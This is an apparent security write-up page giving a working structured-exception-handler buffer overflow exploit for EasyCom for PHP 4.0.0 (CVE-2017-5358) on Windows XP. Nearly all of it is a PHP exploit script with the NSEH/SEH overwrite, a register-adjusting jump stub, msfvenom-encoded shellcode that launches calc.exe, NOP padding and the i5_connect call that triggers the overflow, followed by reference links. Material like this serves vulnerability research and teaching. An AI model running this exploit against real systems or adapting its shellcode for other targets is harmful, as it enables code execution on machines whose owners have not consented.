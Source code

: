 ```yaml
---
title: "EasyCom For PHP 4.0.0 - Buffer Overflow Exploit"
date: 2017-11-18 22:00:00
preview: ""
---
```


CVE: CVE-2017-5358

The vulnerable code is into `php_Easycom5_3_0.dll`.

## Environment
* EasycomPHP_4.0029.iC8im2.exe
* PHP 5.3.1 (cli) (built: Nov 20 2009 17:26:32)
* xampp-win32-1.7.3
* Windows XP SP2 32bit

## Exploit
```php
<?php

$nseh = "\xeb\x06\x90\x90";		# JMP ESP+6
$seh = "\x81\x04\x02\x10";		# POP POP RET - xampp\php\php5ts.dll

$jump_to_sc = "\x59\x59\x59";		# POP ECX ; POP ECX ; POP ECX
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xff\xe1"; # JMP ECX

# msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/shikata_ga_nai -f c
# size: 220 bytes
$shellcode = "\xb8\xcd\x5a\x0b\x2d\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1";
$shellcode  = $shellcode . "\x31\x31\x43\x13\x03\x43\x13\x83\xc3\xc9\xb8\xfe\xd1\x39\xbe";
$shellcode  = $shellcode . "\x01\x2a\xb9\xdf\x88\xcf\x88\xdf\xef\x84\xba\xef\x64\xc8\x36";
$shellcode  = $shellcode . "\x9b\x29\xf9\xcd\xe9\xe5\x0e\x66\x47\xd0\x21\x77\xf4\x20\x23";
$shellcode  = $shellcode . "\xfb\x07\x75\x83\xc2\xc7\x88\xc2\x03\x35\x60\x96\xdc\x31\xd7";
$shellcode  = $shellcode . "\x07\x69\x0f\xe4\xac\x21\x81\x6c\x50\xf1\xa0\x5d\xc7\x8a\xfa";
$shellcode  = $shellcode . "\x7d\xe9\x5f\x77\x34\xf1\xbc\xb2\x8e\x8a\x76\x48\x11\x5b\x47";
$shellcode  = $shellcode . "\xb1\xbe\xa2\x68\x40\xbe\xe3\x4e\xbb\xb5\x1d\xad\x46\xce\xd9";
$shellcode  = $shellcode . "\xcc\x9c\x5b\xfa\x76\x56\xfb\x26\x87\xbb\x9a\xad\x8b\x70\xe8";
$shellcode  = $shellcode . "\xea\x8f\x87\x3d\x81\xab\x0c\xc0\x46\x3a\x56\xe7\x42\x67\x0c";
$shellcode  = $shellcode . "\x86\xd3\xcd\xe3\xb7\x04\xae\x5c\x12\x4e\x42\x88\x2f\x0d\x08";
$shellcode  = $shellcode . "\x4f\xbd\x2b\x7e\x4f\xbd\x33\x2e\x38\x8c\xb8\xa1\x3f\x11\x6b";
$shellcode  = $shellcode . "\x86\xb0\x5b\x36\xae\x58\x02\xa2\xf3\x04\xb5\x18\x37\x31\x36";
$shellcode  = $shellcode . "\xa9\xc7\xc6\x26\xd8\xc2\x83\xe0\x30\xbe\x9c\x84\x36\x6d\x9c";
$shellcode  = $shellcode . "\x8c\x54\xf0\x0e\x4c\xb5\x97\xb6\xf7\xc9";

# SEH overwrite      = 1868 bytes
# payload_base       = 00C0F864
# ecx		     = 00C0FCB0
# ecx - payload_base = 1100 bytes

$nop1 = str_repeat("\x90", 1100);
$nop2 = str_repeat("\x90", 1868 - strlen($nop1) - strlen($shellcode));
$nop3 = str_repeat("\x90", 1000);

$payload = $nop1 . $shellcode . $nop2 . $nseh . $seh . $jump_to_sc . $nop3;

$conn = i5_connect($payload, "QPGMR", "PASSW") or die(i5_errormsg());

?>

```

## References
* [hyp3rlinx](http://hyp3rlinx.altervista.org/advisories/EASYCOM-PHP-API-BUFFER-OVERFLOW.txt)
* [SEH exploitation tutorial](http://www.thegreycorner.com/2010/01/seh-stack-based-windows-buffer-overflow.html)
* [exploit-db PoC](https://www.exploit-db.com/exploits/41425/)